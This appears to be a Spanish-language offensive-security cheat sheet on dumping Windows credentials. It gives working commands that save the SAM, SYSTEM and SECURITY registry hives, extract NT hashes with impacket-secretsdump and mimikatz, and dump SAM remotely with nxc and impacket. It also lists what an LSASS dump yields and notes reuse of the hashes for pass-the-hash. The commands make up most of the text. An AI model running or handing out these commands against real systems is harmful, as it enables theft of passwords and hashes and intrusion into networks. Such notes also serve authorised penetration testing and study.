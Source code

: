 #Windows #bruteforce #passthehash #pastheticket #passthekey #dumpCredentials 
# Técnicas para Dumpear Credenciales

## Dumpeando SAM
Sirve principalmente para obtener credenciales de cuentas locales (sistemas no unidos a un AD). El valor que obtendremos aquí será el NT hash. Con el NT hash (o hash NTML) no importa si nos autenticamos utilizando el protocolo NTMLv1 ó NTMLv2. Si un usuario reutiliza esta contraseña en un AD, también se podrá hacer PtH en el AD. Debemos ser usuarios privilegiados en el sistema para poder realizar este tipo de ataque
### Desde la máquina comprometida
#### Guardar información con `reg.exe` - Máquina comprometida
```powershell
reg.exe save hklm\sam C:\Users\public\sam.save
reg.exe save hklm\system C:\Users\public\system.save
reg.exe save hklm\security C:\Users\public\security.save # opcional
```
- Con esta información debemos utilizar después `secretsdump` del siguiente modo: 
	```bash
	impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL > secretsdump.txt
	```
#### Coon mimikatz
```powershell
.\mimikatz.exe privilege::debug lsadump::sam exit *> dumpSAM
# A veces hay que elevar privilegios con token::elevate antes de lsamdump::sam
```
### Desde pwnbox
#### Con `nxc`
```bash
nxc smb $target -u $username -p $password --sam
```
#### Con impacket
```bash
impacket-secretsdump $username:$password@$target
```

---

## Dumpeando LSASS
Se puede obtener información como la que sigue: 
- Hashes NTML
- Contraseñas en texto claro 
- Tickets Kerberos (TGT y Service Tickets)
- Credenciales cacheadas
- Credenciales RDP
- ...
